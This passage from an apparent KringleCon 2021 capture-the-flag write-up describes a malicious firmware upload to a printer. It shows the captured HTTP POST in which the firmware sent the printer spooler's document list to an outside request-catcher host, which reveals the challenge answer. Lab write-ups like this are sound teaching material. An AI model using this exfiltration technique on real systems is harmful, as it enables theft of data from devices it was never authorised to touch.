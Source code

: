 
![Objective7 upload success](/assets/kringlecon2021/objective7/objective7_successfulupload.jpg)

Woo-hoo! We see "Firmware successfully uploaded and validated! Executing the update package in the background". It passed our signature check, but did it make a request? We check our requestcatcher page...

![Objective7 upload success](/assets/kringlecon2021/objective7/objective7_post_payload.jpg)

Alright! The server did indeed run our file and make a request! And we can see the contents of the printer spooler in the body. And the last file printed with an .xlsx extension is Troll_Pay_Chart.xlsx. And there we have our answer.

{% highlight shell %}
POST / HTTP/1.1
Host: bdubkringle.requestcatcher.com
Accept: */*
Content-Length: 338
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.64.0

Documents queued for printing=============================
Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
{% endhighlight %}
